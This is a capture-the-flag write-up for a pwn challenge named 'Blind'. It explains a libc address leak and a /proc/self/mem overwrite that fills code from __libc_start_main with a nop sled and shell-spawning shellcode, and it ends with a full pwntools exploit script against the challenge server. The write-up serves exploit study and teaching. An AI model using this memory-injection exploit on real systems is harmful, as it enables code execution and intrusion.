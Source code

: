 # Blind

> Looking at the title introduction, it should be something about BROP. Also found that there is no attachment.  
> I have never done a BROP problem before, so let's give it a try.  
> [CTF-WIKI_BROP](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#brop)

First, let's see what the program will do.

![image-20220217140202100](https://oss.nova.gal/img/image-20220217140202100.png)

You can see that the program first provides the address of `write`, but since we don't know the libc version, although we can find the libc version based on the lower 12 bits, we choose `LibcSearcher` for a quicker solution.

In this way, it is easy to find `libc_base`.

```python
sh.recvuntil(b"write: ")
write_addr = int(sh.recvuntil(b"\n", drop=True), 16)
success(">>> write_addr: {}".format(hex(write_addr)))

libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
success(">>> libc_base: {}".format(hex(libc_base)))
```

Next, it allows us to open a file.

![image-20220217140449422](https://oss.nova.gal/img/image-20220217140449422.png)

Introduction to some related contents of `/proc/`.

## /proc/

The Linux kernel provides a mechanism to access kernel data and change kernel settings during program execution through the /proc filesystem. /proc is a pseudo-file structure, which means it exists only in memory and not on external storage. Some important directories in /proc are sys, net, and scsi. The sys directory is writable and can be used to access and modify kernel parameters.

/proc also contains process directories named after PID (process ID), which can be used to read information about the corresponding processes. There is also a /self directory, used to record information specific to the current process.

### /proc/self/

This is like a symlink, where different PIDs accessing this directory essentially enter different /proc/$(PID)/ directories.

#### /proc/self/maps

This file is used to record the memory mapping of the current process, similar to the `vmmap` command in GDB. By reading this file, you can obtain the base address of the memory code segment.

#### /proc/self/mem

This file records information about the process memory. Modifying this file is equivalent to directly modifying the process memory. This file is readable and writable, but reading it directly will result in an error.

You need to modify `offset`'s `val` based on the mapping information in `/proc/self/maps`.

If we write some code to the `.text` section, the code at that address will become `disasm(val)`.

Therefore, it naturally comes to mind to write shellcode there. However, since we do not have the source file, we cannot be sure where the program has executed and thus cannot control the program to jump to the exact location where the `shellcode` starts.

## Shellcode Spray

At this point, if we change the address context to all `nop` and add a segment of `shellcode` at the end, whenever the program reaches any position where `nop` is located, the `shellcode` will execute normally.

Thus, we may as well change a large section starting from `__libc_start_main` to `nop`, ensuring that the program is definitely covered by `nop`.

Exp:

```python
import string

from pwn import *
from pwnlib.util.iters import mbruteforce
from LibcSearcher import LibcSearcher

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = remote('chuj.top', 51812)

sh.recvuntil(b' == ')
hash_code = sh.recvuntil(b"\n", drop=True).decode('UTF-8')
charset = string.ascii_letters
# print(hash_code, type(hash_code))
proof = mbruteforce(lambda x: hashlib.sha256(x.encode()).hexdigest() ==
                              hash_code, charset, 4, method='fixed')

sh.sendlineafter(b"????> ", proof.encode())

sh.recvuntil(b"write: ")
write_addr = int(sh.recvuntil(b"\n", drop=True), 16)
success(">>> write_addr: {}".format(hex(write_addr)))

libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
success(">>> libc_base: {}".format(hex(libc_base)))

sh.sendlineafter(b">> ", b'/proc/self/mem\x00')

__libc_start_main_addr = libc_base + libc.dump('__libc_start_main')
success(">>> __libc_start_main: {}".format(hex(__libc_start_main_addr)))
sh.sendlineafter(b">> ", str(__libc_start_main_addr).encode())

payload = asm('nop') * 0x300 + asm(shellcraft.sh())
sh.sendlineafter(b">> ", payload)

sh.interactive()
```

<!-- AI -->
